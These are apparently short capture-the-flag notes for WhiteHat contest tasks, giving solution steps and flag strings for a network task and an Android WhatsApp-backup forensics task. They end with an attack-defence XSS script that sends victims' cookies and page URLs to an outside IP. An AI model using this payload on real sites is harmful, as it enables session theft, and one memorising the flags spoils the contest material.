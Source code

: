 Net300
 config iptables and flush - WhiteHat{DAD7569D56B7A300388489414BEF3906E5E27DEB}

For300
 android backup data -> extract to jar file with android backup data extract -> extract tar file -> use command "ls -t|head -n1" to find last file edited in shared folder -> file crypt7 of what app -> use whatsapp viewer to decrypt file crypt7 and view flag: WhiteHat(3B73E7B2A0485E30950FE990E678B16C327E37D7)


Attack-Defence
 Script inject to name field for CSRF vulnerability.

<img width="1px" height="1px" src="" id="xxx">
<script>
imgx=document.getElementById('xxx');
imgx.src="http://123.30.146.35:7104/a3716017c2a37c11157de7cfcc259e3a/abc.php?text="+document.cookie+"|"+window.location.href;
</script>


